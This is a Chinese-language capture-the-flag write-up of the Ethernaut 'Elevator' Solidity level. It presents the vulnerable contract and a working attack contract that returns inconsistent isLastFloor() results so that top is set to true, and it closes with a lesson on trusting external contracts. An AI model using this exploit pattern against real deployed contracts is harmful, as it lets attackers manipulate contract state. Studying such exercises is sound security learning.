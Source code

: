 # Elevator

## 题目

目标：将top修改为true

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

## 分析

top默认值为false，floor默认值为0。本题需要我们将top修改为true。

但是这个合约里面没有一个函数可以将top修改成为true。只有一个地方可能，那就是goTo()函数里面的`top = building.isLastFloor(floor)`。`isLastFloor()`是接口Building的一个方法，尚未实现，因此我们需要实现这个方法。

我们分析发现，goTo()代码中，`building.isLastFloor(_floor)`出现了两次，第一次在if()判断里面，需要我们返回false才可以进入语句。第二次在`top = building.isLastFloor(floor)`需要我们返回true，才可以修改top为true。因为参数`_floor`被使用使用了两次，不修改`_floor`的话结果肯定是一样的(要么都false，要么都true)。因此我们需要在`_floor`中做文章，使得两次返回的结果，第一次为false，第二次为true。

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

contract Hack is Building{
    uint floor = 1;
    Elevator elevator = Elevator(0xa9Eb9Ae51b033aE0381d85C30BB4b4e185E09b91);//题目地址

    function isLastFloor(uint _floor) external returns (bool){
        if(floor == _floor){
            floor = 2;
            return false;
        }else{
            return true;
        }
    }
    function attack() public{
        elevator.goTo(1);
    }
}
```

**解释Hack**

1. 攻击合约需要实现Building接口，然后实现`isLastFloor`方法。
2. 执行`attack()`，然后题目Elevator就会执行`goTo(1)`
   1. `Building building = Building(msg.sender)`创建了一个接口，接口对象是msg.sender，即Hack合约
   2. `! building.isLastFloor(_floor)`，这个接口就会回到Hack进行方法`isLastFloor(1)`的调用。这是第一次调用`isLastFloor()`，然后floor == _floor吗？在Hack环境中，1==1为true，进入方法体，Hack合约的floor = 2赋值，返回false
   3. 回到Elevator合约，!false进入方法体，Evelator合约环境的floor = _floor，即floor被赋值为1。
   4. 然后`top = building.isLastFloor(floor)`第二次进入Hack的`isLastFloor(1)`方法。此时floor == _floor吗？Hack的环境2==1？不进入方法体，返回true。top被赋值为true

需要重点理解的是：Evevator中的接口方法`building.isLastFloor(_floor)`会返回到Hack中找到对应的实现，然后执行。原因：`Building building = Building(msg.sender)`，msg.sender是Hack，接口对象是Hack

我认为这个地方需要注意的是：之所以会出现漏洞，是因为Elevator合约中的`Building building = Building(msg.sender)`给了外界太多的操作空间，后面的调用都是在外面给定的合约进行操作的，只要接口合约前一次返回flase，后一次返回true，就可以成功修改top为true。所以我们在书写合约的时候，一定要注意和外面的交互时，不要授权给外界太多的权力，外界的合约充满太多的未知

## 做题

获取实例，部署，初始状态如下：

![image-20221223161838015](11.Elevator/image-20221223161838015.png)

发起攻击，然后成功修改：

![image-20221223161805780](11.Elevator/image-20221223161805780.png)

通过

![image-20221223161652055](11.Elevator/image-20221223161652055.png)
